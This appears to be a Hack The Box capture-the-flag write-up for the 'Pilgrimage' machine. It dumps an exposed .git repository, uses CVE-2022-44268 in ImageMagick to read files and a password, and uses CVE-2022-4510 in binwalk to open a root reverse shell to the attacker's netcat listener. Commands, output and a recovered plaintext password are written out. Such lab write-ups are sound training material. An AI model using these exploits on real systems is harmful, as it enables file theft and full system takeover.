

# Pilgrimage - LINUX - EASY


## Enumeration
Start off with an nmap scan
```console
toasty@parrot$ sudo nmap -sC -sV -p- 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-23 00:53 BST
Nmap scan report for 10.10.11.219
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We see that `22` and `80` are open. We see that the site will redirect us to `pilgrimage.htb` so let's add that to our `/etc/hosts` and visit the site. We can also see that there is `.git` repository, which we should also take a look at. 

## Pilgrimage.htb


We have a website that allows us to upload files and shrink them?

I click around and there is a `login` and a `register` page. Let's look at the register page:


I use the username `test` and the password `test` and it lets me create an account and takes me to `/dashboard.php` which looks like it will show me a record of shrinks I have done.


## Test Uploads
I take a screenshot of my desktop and title it `screenshot.png` and I go to upload it, and it goes through succesfully and gives me a new shrunken image URL.




So we can upload files on the server, and then have a way to interact with them via new URL. let's see if we can get into the `.git` and see if it holds some of the code that this site is running so we can potentially exploit this feature.

## .git
We can see the `.git` directory but any attempt to access via browser or command line get's us a `403 Forbidden` error:


[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git) points us to use the tool [git-dumper](https://github.com/arthaud/git-dumper).

First we will need to install, then we can run the tool:


```console
toasty@parrot$ pipx install git-dumper
  installed package git-dumper 1.0.6, installed using Python 3.9.2
  These apps are now globally available
    - git-dumper
done! ✨ 🌟 ✨
 toasty@parrot$ git-dumper http://pilgrimage.htb/.git ./pilgrimage
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/description [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-receive.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/update.sample [200]
[-] Fetching http://pilgrimage.htb/.git/index [200]
[-] Fetching http://pilgrimage.htb/.git/info/exclude [200]
[-] Fetching http://pilgrimage.htb/.git/objects/info/packs [404]
[-] http://pilgrimage.htb/.git/objects/info/packs responded with status code 404
...SNIP
toasty@parrot$ ls
pilgrimage  screenshot.png
```

## Check the files
There is a few files to go through but a few different things stand out. 

1) `index.php` When a picture is uploaded it will use the [magick](https://imagemagick.org/index.php) software to convert the file. Keep that in mind.

    ```php
        if($upload) {
        $mime = ".png";
        $imagePath = $upload->getFullPath();
        if(mime_content_type($imagePath) === "image/jpeg") {
            $mime = ".jpeg";
        }
        $newname = uniqid();
        exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
    ```

2) `login.php` There is a SQlite DB at `/var/db/pilgrimage` that appears to hold all the user data. Also it appears to be checking the passwords directly to the database meaning they are stored in plaintext:


    ```php
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['username'] && $_POST['password']) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $db = new PDO('sqlite:/var/db/pilgrimage');
    $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
    $stmt->execute(array($username,$password));
    ```

3) `bulletproof.php` is the library being used to upload the files. It is running version 4.0.0 and from what I could find didn't have any glaring security issues with the program itself.

    ```php
    <?php 
    /**
     * BULLETPROOF.
     * 
     * A single-class PHP library to upload images securely.
     * 
     * PHP support 5.3+
     * 
     * @version     4.0.0
     * @author      https://twitter.com/_samayo
     * @link        https://github.com/samayo/bulletproof
     * @license     MIT
     */
    namespace Bulletproof;
    ```

## Follow the Magick
Back to the tool used to convert the images: `magick`. We see that it is in our `.git` folder and it is running version 7.1.0-49 beta:

```console
toasty@parrot$ ls
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
toasty@parrot$ file magick
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
toasty@parrot$ ./magick
Error: Invalid argument or not enough arguments

Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}

toasty@parrot$ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

```

## CVE 2022-44268
A google search later on that magick version we find [CVE 2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268). Basically, if the process/user running magick has access to a file you can get the program to embed the file contents in the image.

## POC 
There is a POC by [vidz0r](https://github.com/voidz0r/CVE-2022-44268) that we wil use. We will follow along with the example to verify it is working and retrieve `/etc/passwd`

```console
toasty@parrot$ cargo run "/etc/passwd"
    Updating crates.io index
  Downloaded hex v0.4.3
  Downloaded bitflags v1.3.2
  Downloaded miniz_oxide v0.6.2
  Downloaded cfg-if v1.0.0
  Downloaded adler v1.0.2
  Downloaded crc32fast v1.3.2
  Downloaded flate2 v1.0.25
  Downloaded png v0.17.7
  Downloaded 8 crates (301.4 KB) in 1.74s
   Compiling crc32fast v1.3.2
   Compiling cfg-if v1.0.0
   Compiling adler v1.0.2
   Compiling bitflags v1.3.2
   Compiling hex v0.4.3
   Compiling miniz_oxide v0.6.2
   Compiling flate2 v1.0.25
   Compiling png v0.17.7
   Compiling cve-2022-44268 v0.1.0 (/home/toasty/HTB/Pilgrimage/CVE-2022-44268)
    Finished dev [unoptimized + debuginfo] target(s) in 4.15s
     Running `target/debug/cve-2022-44268 /etc/passwd`

```
Then we upload our file and we get the new URL with the `shrunken` png: ``

Then we download the png, get the hex output using `identify` and use `python` to convert the hex.
```console
toasty@parrot$ wget http://pilgrimage.htb/shrunk/64e559962c0ea.png -q
toasty@parrot$ identify -verbose 64e559962c0ea.png 
...SNIP
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
...SNIP
toasty@parrot$ python3 -c 'print(bytes.fromhex("726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62...SNIP"))'
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

We do get the `/etc/passwd` file although a little jumbled. Let's prettify it so we have it here:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```


While that is nice, let's see if we can grab that DB from earlier with the user data .


## Grabbing User Database
It will start off the same as the above POC except now we specify the DB `/var/db/pilgrimage`:


```console
toasty@parrot $cargo run "/var/db/pilgrimage"
Finished dev [unoptimized + debuginfo] target(s) in 0.00s
Running `target/debug/cve-2022-44268 /var/db/pilgrimage`
```

We then run the `identify` command but I won't put that in here because the output was enormous. Removing all the return and newline characters (`/r` and `/n`) in the hex output will allow us to post the output in our console for the python command. 

Again that command will be `python3 -c 'print(bytes.fromhex($hexOutput))'`

Below is a snippet of the output containing the password for the user `emily` which we can tell from our `/etc/passwd` output is a valid user on the machine.


`x03\x17-emilyabigchonkyboi123\n\x00`

## SSH and User Flag
With these creds we test and have ssh access on the machine now!
```console
toasty@parrot$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 23 11:24:11 2023 from 10.10.14.231
emily@pilgrimage:~$ ls -al
total 3048
drwxr-xr-x 5 emily emily    4096 Aug 23 08:21 .
drwxr-xr-x 3 root  root     4096 Jun  8 00:10 ..
lrwxrwxrwx 1 emily emily       9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily     220 Feb 10  2023 .bash_logout
-rw-r--r-- 1 emily emily    3526 Feb 10  2023 .bashrc
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .config
-rw-r--r-- 1 emily emily      44 Jun  1 19:15 .gitconfig
drwx------ 4 emily emily    4096 Aug 23 07:52 .gnupg
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .local
-rw-r--r-- 1 emily emily     807 Feb 10  2023 .profile
-rwxr-xr-x 1 emily emily 3078592 Aug 23 00:29 pspy64
-rw-r----- 1 root  emily      33 Aug 23 00:09 user.txt
emily@pilgrimage:~$ cat user.txt 
21cc9***************************
```

# Machine Flag
Let's take a look around Emily's home directory:

```console
emily@pilgrimage:~$ ls -al
total 3048
drwxr-xr-x 5 emily emily    4096 Aug 23 08:21 .
drwxr-xr-x 3 root  root     4096 Jun  8 00:10 ..
lrwxrwxrwx 1 emily emily       9 Feb 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 emily emily     220 Feb 10  2023 .bash_logout
-rw-r--r-- 1 emily emily    3526 Feb 10  2023 .bashrc
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .config
-rw-r--r-- 1 emily emily      44 Jun  1 19:15 .gitconfig
drwx------ 4 emily emily    4096 Aug 23 07:52 .gnupg
drwxr-xr-x 3 emily emily    4096 Jun  8 00:10 .local
-rw-r--r-- 1 emily emily     807 Feb 10  2023 .profile
-rwxr-xr-x 1 emily emily 3078592 Aug 23 00:29 pspy64
-rw-r----- 1 root  emily      33 Aug 23 00:09 user.txt
emily@pilgrimage:~$ ls .config/binwalk/
config  magic  modules  plugins
```

We notice that we have references to binwalk (a tool for reverse engineering and pulling info out of files) and [pspy64](https://github.com/DominicBreuker/pspy) which lets a user snoop on processes without the need for root.

## Pspy64
If we run `pspy64` we can see that root (UID=0) is running a shell script named `malwarescan.sh` a few times.
```text
2023/08/23 11:38:41 CMD: UID=0    PID=710    | /bin/bash /usr/sbin/malwarescan.sh 
2023/08/23 11:38:41 CMD: UID=0    PID=71     | 
2023/08/23 11:38:41 CMD: UID=0    PID=709    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 
2023/08/23 11:38:41 CMD: UID=0    PID=70     | 
2023/08/23 11:38:41 CMD: UID=0    PID=69     | 
2023/08/23 11:38:41 CMD: UID=0    PID=685    | /lib/systemd/systemd-logind 
2023/08/23 11:38:41 CMD: UID=0    PID=684    | /usr/sbin/rsyslogd -n -iNONE 
2023/08/23 11:38:41 CMD: UID=0    PID=683    | /bin/bash /usr/sbin/malwarescan.sh 
```

I also want to quickly check to see if we have any sudo powers and we unfortunately do not:
```console
emily@pilgrimage:~$ sudo -l
[sudo] password for emily: 
Sorry, user emily may not run sudo on pilgrimage.
```

## Malwarescan.sh
Well no sudo, but let's go check out that `malwarescan.sh` file. 
```console
emily@pilgrimage:~$ ls -al /usr/sbin/ | grep malware
-rwxr--r--  1 root root       474 Jun  1 19:14 malwarescan.sh
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

We first check to see if we had any write privileges over the file (we do not) and then we `cat` it out. The script looks to be checking to make sure that no blacklisted files are uploaded and if they are they are removed from the system. Near the middle of the script we see `binwalk` being used to traverse image files and since it was also in our home directory my hunch is we look there.

## Binwalk Version and CVE-2022-4510
Let's take a look at the `binwalk` tool.
```console
emily@pilgrimage:~$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...
```

We are running v2.3.2 which is vulnerable to [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510). This only works when binwalk is run in extraction mode `-e` to allow remote code execution (RCE) on a system, and lucky for us this script is doing exactly that.


## POC
We find a POC by [electr0sm0g](https://github.com/electr0sm0g/CVE-2022-4510/blob/main/RCE_Binwalk.py) that will let us generate a PNG that when ran through binwalk will call back to our netcat listener on our machine. Once we create the png , we will just need to get our file over to the directory that is scanned `/var/www/pilgrimage.htb/shrunk/`


### Step 1
First we need to download the python code and use it to create an exploit image
```console
toasty@parrot$ wget https://github.com/electr0sm0g/CVE-2022-4510/raw/main/RCE_Binwalk.py -q
toasty@parrot$ python3 RCE_Binwalk.py test.png 10.10.14.231 8808

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

### Step 2
Transfer our modified file over to the machine, after the face I realized I could have probably just used the upload page to achieve the same thing.

#### Host
```console
toasty@parrot$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.219 - - [23/Aug/2023 13:39:11] "GET /binwalk_exploit.png HTTP/1.1" 200 -
```

#### Target
```console
emily@pilgrimage:~$ wget 10.10.14.231:8000/binwalk_exploit.png
--2023-08-23 22:42:00--  http://10.10.14.231:8000/binwalk_exploit.png
Connecting to 10.10.14.231:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22034 (22K) [image/png]
Saving to: 'binwalk_exploit.png'

binwalk_exploit.png 100%[===================>]  21.52K  --.-KB/s    in 0.03s  
```


### Step 3
Now we can start the listener on our host machine (using same port we specified before) then we move the file to `/var/www/pilgrimage.htb/shrunk`. I tried this a few times and it would not work until I named the file after other similarly named files in the folder.

#### Host
```console
toasty@parrot$ nc -lvnp 8808
listening on [any] 8808 ...
```

#### Target
```console
emily@pilgrimage:~$ file binwalk_exploit.png 
binwalk_exploit.png: PNG image data, 100 x 100, 1-bit colormap, non-interlaced
emily@pilgrimage:~$ mv binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/64e5fd9a13718.png
```

## Root Access and Machine Flag
We get the connection back to our listener, check the id, and we are in as root! Now we can grab the machine flag.
```console
toasty@parrot$ nc -lvnp 8808
listening on [any] 8808 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.219] 34642
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3f144b**************************
```

Final note: Going back through and writing this I did realize that `pspy64` was not initially on the machine, it must have been left by a previous user connecting to the machine. I did do a test and verified that I was able to get the code over to the machine and get it running.
